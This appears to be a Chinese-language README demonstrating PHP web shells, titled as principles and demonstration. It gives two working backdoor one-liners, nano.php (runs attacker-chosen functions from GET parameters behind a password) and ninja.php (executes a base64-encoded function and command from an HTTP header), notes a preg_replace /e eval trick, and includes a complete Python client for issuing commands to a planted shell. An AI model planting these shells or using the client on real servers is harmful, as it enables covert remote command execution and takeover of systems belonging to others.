




# 原理和演示

## test123.php

post数据存储到session解密后利用preg_replace()函数的漏洞

'a'eis eval()



## nano.php

```php
<?php $x=$_GET;($x[p]=='123456'?$x[f]($x[c]):y);
```



参数解释  
- p 密码可以自定义
- f 要执行的函数
- c 要执行的命令

## ninja.php

```php
<?php $h=getallheaders();$x=explode('~',base64_decode(substr($h['x'],1)));@$x[0]($x[1]);
```

参数解释  
- $h 保存所有的http请求的header信息
- $x 保存执行的函数和命令

`system~ls` `base64`后 `c3lzdGVtfmxzCg==` 任意加一个字符在加密后的字符串前面是为了配合`substr`函数



### nano.php ninja.php 使用繁琐

```python
import requests
import sys
import random
import base64

white = '\033[97m'
green = '\033[92m'
red = '\033[91m'
yellow = '\033[93m'
end = '\033[0m'
back = '\033[7;91m'
info = '\033[33m[!]\033[0m'
que = '\033[34m[?]\033[0m'
bad = '\033[31m[-]\033[0m'
good = '\033[32m[+]\033[0m'
run = '\033[97m[~]\033[0m'

if sys.version_info[0]==2:
    input = raw_input
    from urlparse import urlparse
else:
    from urllib.parse import urlparse

print ('''%s1.%s Nano
%s2.%s Ninja\n''' % (green, end, green, end))
shell = input('%s Select the shell type: ' % que)
if shell == '1':
    shell = 'nano'
    url = input('%s Enter the URL of shell: ' % que)
    passwd = input('%s Enter password: ' % que)
if shell == '2':
    shell = 'ninja'
    url = input('%s Enter the URL of shell: ' % que)
function = input('%s Enter the function to use: ' % que)
if not url.startswith('http'):
    url = 'http://' + url

user_agents = ['Mozilla/5.0 (X11; Linux i686; rv:60.0) Gecko/20100101 Firefox/60.0',
'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/60.0.3112.113 Safari/537.36'
'Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36 OPR/43.0.2442.991']

def requester(url, payload, shell):
    headers = {
'Host' : urlparse(url).hostname,
'User-Agent' : random.choice(user_agents),
'Accept' : 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
'Accept-Language' : 'en-US,en;q=0.5',
'Accept-Encoding' : 'deflate',
'Connection' : 'close',
'DNT' : '1',
'Connection' : 'close',
'Upgrade-Insecure-Requests' : '1'}
    if shell == 'nano':
        payload = '?f=%s&c=%s&p=%s' % (function, payload, passwd)
        print (requests.get(url + payload , headers=headers).text)
    elif shell == 'ninja':
        bases = ['T', 'w', 'F', 'v', 'Z', 'n']
        payload = random.choice(bases) + (base64.b64encode((function + '~' + payload).encode('utf-8'))).decode('utf-8')
        headers['x'] = payload
        print (requests.get(url, headers=headers).text)
while True:
    payload = input('%s>%s ' % (green, end))
    requester(url, payload, shell)

```



[参考的原文地址][41432a7c]


  [41432a7c]: https://github.com/UltimateHackers/nano "原文"
